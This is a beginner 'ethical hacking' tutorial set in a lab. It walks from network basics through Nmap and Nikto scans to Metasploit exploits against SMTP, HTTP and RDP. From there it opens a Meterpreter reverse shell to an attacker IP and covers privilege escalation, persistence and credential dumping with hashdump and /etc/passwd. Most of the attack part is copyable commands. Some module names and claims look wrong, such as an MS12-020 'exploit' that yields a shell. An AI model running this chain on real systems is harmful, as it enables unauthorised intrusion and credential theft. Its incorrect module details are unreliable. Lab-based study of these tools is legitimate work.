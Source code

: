 


1. Introduction to How Computers Communicate

	•	Protocols: Computers communicate using network protocols (e.g., TCP/IP, HTTP, SMTP).
	•	TCP/IP (Transmission Control Protocol/Internet Protocol) is the basic communication language of the internet.
	•	HTTP (HyperText Transfer Protocol): Used for communication between web browsers and web servers.
	•	SMTP (Simple Mail Transfer Protocol): Used for sending emails.
	•	RDP (Remote Desktop Protocol): Used to remotely connect to and control a computer.

2. How Data is Transferred in Networks

	•	IP Addressing: Each device on a network is identified by an IP address.
	•	Public IP: Exposed to the internet.
	•	Private IP: Used within internal networks.
	•	Ports: These are gateways through which a device communicates on a network. Different services run on different ports, for example:
	•	HTTP: Port 80 (or 443 for HTTPS)
	•	SMTP: Port 25
	•	RDP: Port 3389
	•	TCP vs UDP: TCP is connection-oriented (reliable), while UDP is connectionless (faster but less reliable).

3. Setting Up Your Hacking Lab

	•	Use Kali Linux as your attacking machine.
	•	Set up virtual machines (VMs) with Vulnerable OS like Metasploitable, Windows XP, or Windows 7 for testing purposes.

Command to install necessary tools on Kali Linux:

sudo apt update && sudo apt install nmap metasploit-framework

Phase 1: Network Scanning

	•	Target: Discover open ports, services, and potential vulnerabilities.

4. Using Nmap for Network Scanning

Nmap is a powerful tool used to discover hosts and services on a network.

	•	Basic Network Scan: Discover active hosts and open ports.

nmap 192.168.1.1/24

	•	Service Version Detection:

nmap -sV 192.168.1.10

	•	Scan for All Ports: By default, Nmap scans the top 1000 ports. To scan all 65535:

nmap -p- 192.168.1.10

	•	Scan for Specific Ports (e.g., HTTP, SMTP, and RDP):

nmap -p 80,25,3389 192.168.1.10

	•	OS Detection:

nmap -O 192.168.1.10

5. Detailed Port Scanning

	•	HTTP (Port 80/443): Web service scanning.
	•	You can further test the web service using tools like Nikto to discover vulnerabilities.
	•	Run:

nikto -h http://192.168.1.10


	•	SMTP (Port 25): Mail service scanning.
	•	Enumerate email accounts:

nmap --script smtp-enum-users -p 25 192.168.1.10


	•	RDP (Port 3389): Remote Desktop Protocol.
	•	Look for vulnerabilities:

nmap --script rdp-vuln-ms12-020 -p 3389 192.168.1.10



Phase 2: Using Metasploit to Exploit Vulnerabilities

	•	Target: Use known vulnerabilities to exploit the target system.

6. Getting Started with Metasploit

	•	Open Metasploit:

msfconsole

	•	Search for Exploits:
You can search for specific exploits by service, CVE number, or platform:

search smb
search ms12-020

7. Metasploit Modules

	•	Auxiliary: Scanners, fuzzers, and other utilities.
	•	Exploits: Code that takes advantage of a vulnerability.
	•	Payloads: Code that runs after an exploit is successful, like a reverse shell.
	•	Encoders: Obfuscate the payload to avoid detection by antivirus.

8. Common Exploits for SMTP, HTTP, RDP

	•	SMTP Exploit Example:
	•	Target: Exploiting an SMTP vulnerability.
	•	Use:

use exploit/windows/smtp/smtp_vrfy

	•	Set options like the target IP:

set RHOST 192.168.1.10

	•	Run the exploit:

run


	•	HTTP Exploit Example:
	•	Target: Exploiting a web server vulnerability.
	•	Use:

use exploit/multi/http/struts2_content_type

	•	Set the target IP:

set RHOST 192.168.1.10
set RPORT 80

	•	Run the exploit:

run


	•	RDP Exploit Example:
	•	Target: Exploiting an RDP vulnerability.
	•	Use:

use exploit/windows/rdp/rdp_ms12_020

	•	Set the target IP:

set RHOST 192.168.1.10

	•	Run the exploit:

run



9. Payloads: Gaining Control

Once an exploit succeeds, you’ll need a payload to gain control of the target system.

	•	Setting up a reverse shell (where the target machine connects back to you):

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.20  # Your attacker's IP
set LPORT 4444


	•	Run the exploit:

run

If successful, you’ll have a Meterpreter session on the target machine, allowing you to run commands, upload/download files, and more.

10. Post-Exploitation: What to Do After a Successful Exploit

	•	Privilege Escalation: Once inside, you can try to escalate privileges to become an administrator or root.

getsystem


	•	Persistence: Ensure access to the system is maintained even if it reboots:

persistence -U -i 10 -p 4444 -r 192.168.1.20


	•	Collecting Information: Gather sensitive data, credentials, or files:

download /etc/passwd

or

hashdump



Wrap-Up: Targeting Vectors and Ethical Considerations

Target Vectors:

	•	Open Ports: Ports expose services that might be vulnerable.
	•	Weak Configurations: Misconfigurations can lead to exploitation.
	•	Unpatched Vulnerabilities: Systems not updated with security patches are prime targets.

Ethical Hacking Mindset:

Always remember that the goal of ethical hacking is to identify vulnerabilities and secure systems, not to harm or disrupt. Use these techniques responsibly and always with permission.

Final Thoughts

This guide covers the basics of scanning, exploiting vulnerabilities, and gaining access using tools like Nmap and Metasploit. Each phase of hacking—reconnaissance, scanning, exploitation, and post-exploitation—is essential to fully understand system vulnerabilities and how attackers operate. Remember, with great power comes great responsibility. Always practice ethical hacking!
